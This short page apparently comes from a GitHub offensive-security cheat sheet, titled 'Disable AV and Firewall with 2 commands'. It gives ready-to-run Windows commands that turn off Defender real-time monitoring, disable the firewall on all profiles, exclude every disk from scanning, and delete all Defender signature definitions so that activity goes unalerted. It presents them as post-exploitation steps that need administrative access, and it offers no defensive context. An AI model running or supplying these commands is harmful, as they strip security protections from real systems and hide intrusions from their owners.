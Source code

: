 ## Disable AV and Firewall with 2 commands

### Requirements: Administrative/System level access

#### 1) Set-MpPreference -DisableRealtimeMonitoring $True

#### 2) netsh advfirewall set allprofiles state off

#### 3) powershell  -c foreach ($disk in Get-WmiObject Win32_Logicaldisk){Add-MpPreference -ExclusionPath $disk.deviceid}

# Disable Signature Checks from Defender (Won't kill the AV, but it will not alert any activity because of signature disablement)

#### execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
